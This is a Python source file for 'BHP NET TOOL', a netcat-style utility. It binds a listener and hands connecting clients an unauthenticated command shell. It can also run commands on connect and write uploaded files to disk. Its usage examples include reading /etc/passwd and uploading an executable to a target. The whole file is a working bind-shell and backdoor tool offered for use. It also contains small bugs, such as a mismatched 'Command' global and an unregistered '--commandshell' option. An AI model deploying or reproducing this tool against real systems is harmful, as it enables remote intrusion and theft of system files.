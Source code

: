 # write
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import sys
import socket
import getopt
import threading
import subprocess


listen =False
command=False
upload=False
execute=""
target=""
upload_destination=""
port=0

def usage():
    print("BHP NET TOOL");
    print
    print("Usage:bhpnet.py -t target_host -p port");
    print("-l --listen                -listen on[host]:[port] for incoming connections");
    print("-e --execute=file_to_run   -execute the given file upon receiving a connection");
    print("-c --command               -initialize a command shell")
    print("-u --upload=destination    -upon receiving connection upload a file and write to [destination]")
    print
    print
    print("Examples:")
    print("bhpnet.py -t 192.168.0.1 -p 55555 -l -c")
    print("bhpnet.py -t 192.168.0.1 -p 55555 -l -u=c:\\target.exe")
    print("bhpnet.py -t 192.168.0.1 -p 55555 -l -e=\"cat /etc/passwd\"")
    print("echo 'ABCDEFG' | ./bhpnet.py -t 192.168.11.12 -p 135")
    sys.exit()


def main():
    global listen
    global port
    global execute
    global command
    global upload_destination
    global target
    
    if not len(sys.argv[1:]):
        usage()
        
    #读取命令行选项
    try:
        opts,args=getopt.getopt(sys.argv[1:], "hle:t:p:cu:", 
                                ["help","listen","execute","target","port","command","upload"])
    except getopt.GetoptError as err:
        print str(err)
        usage()
    
    for o,a in opts:
        if o in("-h","--help"):
            usage();
        elif o in("-l","--listen"):
            listen=True
        elif o in("-e","--execute"):
            execute=a
        elif o in("-c","--commandshell"):
            command=True
        elif o in("-u","--upload"):
            upload_destination=a
        elif o in("-t","--target"):
            target=a
        elif o in("-p","--port"):
            port=int(a)
        else:
            assert False,"Unhandled Option"

    if not listen and len(target) and port>0:
        buffer=sys.stdin.read()
        client_sender(buffer)
    if listen:
        server_loop()

def client_sender(buffer):
    client=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        client.connect((target,port))
        if len(buffer):
            client.send(buffer)
        while True:
            recv_len=1
            response=""
            while recv_len:
                data=client.recv(4096)
                recv_len=len(data)
                response+=data
                if recv_len<4096:
                    break;
            print(response);
            buffer=raw_input("")
            buffer+="\n"
            client.send(buffer)
    except:
        print("[*] Exception! Exiting.")
    client.close();

def server_loop():
    global target
    if not len(target):
        target="0.0.0.0"
    server=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    server.bind((target,port))
    server.listen(5)
    while True:
        client_socket,addr=server.accept()
        client_thread=threading.Thread(target=client_handler,args=(client_socket,))
        client_thread.start()
def run_command(command):
    command=command.rstrip()
    try:
        output=subprocess.check_output(command,stderr=subprocess.STDOUT,shell=True)
    except:
        output="Faild to execute command.\r\n"
    return output

def client_handler(client_socket):
    global upload
    global execute
    global Command
    if len(upload_destination):
        file_buffer=""
        while True:
            data=client_socket.recv(1024)
            if not data:
                break;
            else:
                file_buffer+=data
        try:
            file_descriptor=open(upload_destination,"wb")
            file_descriptor.write(file_buffer)
            file_descriptor.close()
            client_socket.send("Successfully save file to %s\r\n"%upload_destination)
        except:
            client_socket.send("Failde to save file to %s\r\n"%upload_destination)
    if len(execute):
        output=run_command(execute)
        client_socket.send(output)

    if command:
        while True:
            client_socket.send("<BHP:#> ")
            cmd_buffer=""
            while "\n" not in cmd_buffer:
                cmd_buffer+=client_socket.recv(1024)
            response=run_command(cmd_buffer)
            client_socket.send(response)

main()







